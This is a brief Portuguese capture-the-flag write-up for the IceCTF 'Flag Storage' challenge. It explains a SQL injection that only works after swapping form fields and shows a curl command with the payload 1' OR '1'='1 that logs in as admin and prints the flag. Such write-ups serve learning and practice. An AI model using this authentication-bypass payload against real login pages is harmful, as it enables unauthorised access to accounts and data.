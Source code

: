 # Flag Storage

SQL Injection basico, porem existia a trick que, não era possivel inserir comandos SQL no post padrão enviado pelo form, havia a necessidade de se inverter os campos para inserir o SQL e então logar como admin

**POST enviado pelo form**
```
username=admin&password_plain=admin&password=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
```

**Resolução**
```
greyhound//deadcow ~/fun/icectf/flagstorage % curl -s -iL flagstorage.vuln.icec.tf/login.php -d "username=admin&password=1'+OR+'1'='1&password_plain=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"|grep IceCTF
<h1>Logged in!</h1><p>Your flag is: IceCTF{why_would_you_even_do_anything_client_side}</p>
greyhound//deadcow ~/fun/icectf/flagstorage %
```

